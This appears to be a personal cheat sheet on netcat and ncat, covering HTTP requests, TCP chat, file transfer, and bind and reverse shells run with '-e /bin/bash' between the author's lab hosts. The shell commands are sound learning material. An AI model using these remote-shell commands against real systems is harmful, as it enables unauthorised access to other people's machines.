 ***
### About:
Tool using to read and write data across connections using TCP or UDP.
Have 3 versions from BSD(I use), GNU and Nmap.

***
### Use Cases:

- #### use to send request to aiblogger.com:80
```sh
$ nc aiblogger.com 80                                       
GET /
<!doctype html>
<title>Posts - Flaskr</title>
<link rel="stylesheet" href="/static/style.css">

<nav>
  <h1>Aiblogger</h1>
```

 - #### use to set up tcp connection (chat) using netcat
```sh
ubuntu@host1:~$ nc -vl 833
Listening on 0.0.0.0 833
Connection received on host2 52840
Hi!
```

```sh
bohdan@host2 $ nc host1 833
Hi!
```

- #### use to send file using netcat
```sh
ubuntu@host1:~$ nc -vl 833 > sharedfile.txt
Listening on 0.0.0.0 833
Connection received on host2 52840

ubuntu@host1:~$ ls
sharedfile.txt
```

```sh
bohdan@host2 $ cat > file_to_send
just text

bohdan@host2 $ nc 18.185.104.146 833 < file_to_send
```

- #### used to execute commands using ncat on target host
(switch to Nmap version of netcat)
```sh
ubuntu@host1:~$ ncat -vl 833 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::833
Ncat: Listening on 0.0.0.0:833
Ncat: Connection from host2.
Ncat: Connection from host2:47148.
```

```sh
bohdan@host2 $ nc host1 833
ls
sharedfile.txt
```

- #### send your shell using ncat
```sh
ubuntu@host1:~$ sudo ncat -lv 833
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::833
Ncat: Listening on 0.0.0.0:833
Ncat: Connection from host2.
Ncat: Connection from host2:43984.
ls
file_to_send
```

```sh
bohdan@host2 $ ncat host1 833 -e /bin/bash 
```

***
### Keys:
```sh

```

***
### Help:
```sh

```

***
